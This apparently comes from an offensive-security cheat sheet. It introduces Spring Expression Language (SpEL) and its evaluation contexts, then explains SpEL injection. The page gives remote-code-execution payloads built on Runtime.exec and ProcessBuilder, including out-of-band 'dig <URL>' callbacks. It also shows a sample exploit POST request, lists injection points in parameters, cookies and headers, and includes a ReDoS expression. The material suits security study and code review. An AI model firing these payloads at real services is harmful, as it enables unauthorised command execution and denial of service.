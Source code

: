 # Spring Expression Language (SpEL) overview

The Spring Expression Language (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime.

{% embed url="https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html" %}

## Expression evaluation using Spring's expression interface

The following code introduces the SpEL API to evaluate the literal string expression `Hello World!`:

```java
ExpressionParser parser = new SpelExpressionParser();
Expression exp = parser.parseExpression("'Hello World'.concat('!')");
String message = (String) exp.getValue();
```

The value of the `message` variable is simply `Hello World!`.

## The EvaluationContext interface

The interface [EvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/EvaluationContext.html) is used when evaluating an expression to resolve properties, methods, fields, and to help perform type conversion. There are two main out-of-the-box implementations:

- [StandardEvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/spel/support/StandardEvaluationContext.html). A powerful and highly configurable `EvaluationContext` implementation. This context uses standard implementations of all applicable strategies, based on reflection to resolve properties, methods and fields.
- [SimpleEvaluationContext](https://docs.spring.io/spring-framework/docs/6.0.0-SNAPSHOT/javadoc-api/org/springframework/expression/spel/support/SimpleEvaluationContext.html). A basic implementation of `EvaluationContext` that focuses on a subset of essential SpEL features and customization options, targeting simple condition evaluation and in particular data binding scenarios.

```java
StandardEvaluationContext standardContext = new StandardEvaluationContext();
EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding ().build();
Expression exp = parser.parseExpression("T(java.lang.Runtime).getRuntime().exec('id')");
// execute 'id' command (standard context is used by default)
exp.getValue();
// execute 'id' command
exp.getValue(standardContext);
// receive error message
exp.getValue(simpleContext);
```

## Expression support for defining bean definitions

SpEL expressions can be used with XML or annotation based configuration metadata for defining BeanDefinitions. In both cases the syntax to define the expression is of the form `#{ <expression string> }`.

### XML based configuration

You can set a property or constructor-arg value using expressions.

```xml
<bean id="numberGuess" class="org.spring.samples.NumberGuess">
    <property name="randomNumber" value="#{ T(java.lang.Math).random() * 100.0 }"/>
    <property name="defaultLocale" value="#{ systemProperties['user.region'] }"/>
    <!-- other properties -->
</bean>
```

### Annotation-based configuration

The `@Value` annotation can be placed on fields, methods and method/constructor parameters to specify a default value.

```java
public static class FieldValueTestBean {
  @Value("#{ systemProperties['user.region'] }")
  private String defaultLocale;

  public void setDefaultLocale(String defaultLocale)
  {
    this.defaultLocale = defaultLocale;
  }

  public String getDefaultLocale()
  {
    return this.defaultLocale;
  }
}
```

## Language reference

{% embed url="https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html#expressions-language-ref" %}

# SpEL Injection

SpEL injection occurs when user controlled data is passed directly to the SpEL expression parser. For instance, the following method uses the standard context to evaluate SpEL expression:

```java
private static final SpelExpressionParser PARSER = new SpelExpressionParser();
private static final StandardEvaluationContext CONTEXT = new StandardEvaluationContext();

@PostMapping(path = "/")
public void method(@RequestBody String path, @RequestBody String value) {
    Expression expression = PARSER.parseExpression(path);
    expression.setValue(CONTEXT, value);
    // ...
}
```

As a result, you can gain code execution by sending the following `POST` request:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
...

{"path":"T(java.lang.Runtime).getRuntime().exec('touch executed').x", "value":"executed"}
```

If you have access to a source code, try to search for vulnerable code using the following keywords:

- `SpelExpressionParser`, `EvaluationContext`, `parseExpression`, `@Value("#{ <expression string> }")`
- `#{ <expression string> }`, `${<property>}`, `T(<javaclass>)`

If a source code is not available, it is worth checking the `metrics` and `beans` endpoints provided by the Spring Boot actuators.

{% embed url="https://0xn3va.gitbook.io/cheat-sheets/framework/spring/spring-boot-actuators" %}

These endpoints can expand the list of available beans and the parameters they accept.

Additionally, try to use expressions in different elements of the service:

- Parameter names and values:
    - `variable[<expression string>]=123`
    - `variable=123&<expression string>=123`
    - `{"<expression string>":"123"}`
    - `{"variable":"<expression string>"}`
- HTTP headers:
    - `Cookie: cookie_name=<expression string>`
    - `Cookie: <expression string>=cookie_value`
    - `Private-Token: <expression string>`
- etc.

You can use the following payloads as the expression string:

```java
${1+3}
T(java.lang.Runtime).getRuntime().exec("dig <URL>")
#this.getClass().forName('java.lang.Runtime').getRuntime().exec('dig <URL>')
new java.lang.ProcessBuilder({'dig <URL>'}).start()
${user.name}
```

## ReDoS

The `SimpleEvaluationContext` context prevents arbitrary code executing and writes a error message. However, you still can exploit the ReDoS attack.

```java
EvaluationContext simpleContext = SimpleEvaluationContext.forReadOnlyDataBinding ().build();
Expression exp = parser.parseExpression("'aaaaaaaaaaaaaaaaaaaaaaaa!'.matches('^(a+)+$')");
// ReDoS
exp.getValue(simpleContext);
```

# References

- [Spring Framework Docs: Spring Expression Language (SpEL)](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html)
- [SpEL Injection (Russia)](https://habr.com/ru/company/dsec/blog/433034/)
